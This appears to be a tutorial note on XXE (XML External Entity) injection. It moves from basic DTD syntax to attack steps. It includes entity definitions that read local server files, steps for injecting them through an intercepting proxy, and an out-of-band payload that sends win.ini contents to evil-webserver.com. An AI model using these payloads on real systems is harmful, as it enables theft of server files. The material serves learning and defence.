 # What is XXE?
XXE = XML External Entity

# XML and its ENTITYs
### What is a DTD
A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. 
### Why use a DTD
With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 
### Internal DTD Declaration
If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file:
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection
When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request
# Out of band
While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:
```


POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
